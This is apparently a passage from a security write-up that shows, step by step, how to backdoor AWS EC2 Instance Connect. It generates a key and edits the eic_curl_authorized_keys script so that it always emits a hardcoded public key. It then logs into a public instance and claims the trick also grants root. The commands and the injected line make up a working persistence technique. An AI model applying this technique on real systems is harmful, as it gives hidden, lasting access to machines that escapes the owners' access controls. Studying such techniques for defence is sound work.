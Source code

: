 #### Step 1: Generate My Test Key

```
ssh-keygen -t rsa -b 2048 -f ./test_key -N '' -C 'curiosity-backdoor-test'
chmod 600 ./test_key
```

#### Step 2: Understand the Script Flow

Looking at the original script  I found the perfect injection point:

```bash
# Line 82-88: After checking if user exists
/usr/bin/id -u "${1}" > /dev/null 2>&1
id_exit="${?}"
if [ "${id_exit}" -ne 0 ] ; then
    exit 0
fi

# This is where the script continues to fetch keys from IMDS
# What if I add my key here, before it even checks IMDS?
```

#### Step 3: Deploy and Test

```bash
# Backup original and deploy modified version
sudo cp /opt/aws/bin/eic_curl_authorized_keys /opt/aws/bin/eic_curl_authorized_keys.backup


```

I created a modified version that adds one line after user validation: (as shown in step 2)

```bash
/bin/echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCRVFimGzwamvjwTgudiTgv5XTgll17tyGwld/Hp6l2ZAE3AUZ62ERmC7+xjyQDMaXZXu30mFIC/lp9hy9U0i+aJmOdr6RiQxIqoYc0wnUB/Eq92GAaKnQkaWtaoqv8BbJxWcvJ18U/Qrs26w0KmOTWvwVecC+FU6TfAlnqbZlLnc8pxDkc5+0oUtmJX4ChdmQczIKti6WXEUTVitlkhp4pRTxfk67vLU705F7dpf6GeYUit6VAOq37FoUU1nFSV0pYTwDmogpekf13uNtzrcCe82VwoHijU003XZbyRCeDwd6Ln1GifbhxkrWq1Tm6kJ/auCCD+JHccPKMfeRyqjqB curiosity-backdoor-test"
```



```bash
# Test from my local machine
ssh -o IdentitiesOnly=yes -i ./test_key ec2-user@3.80.57.191 "whoami && id"
# IT WORKED!

```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### The "Oh Sh\*t" Moment: It Works for ROOT Too

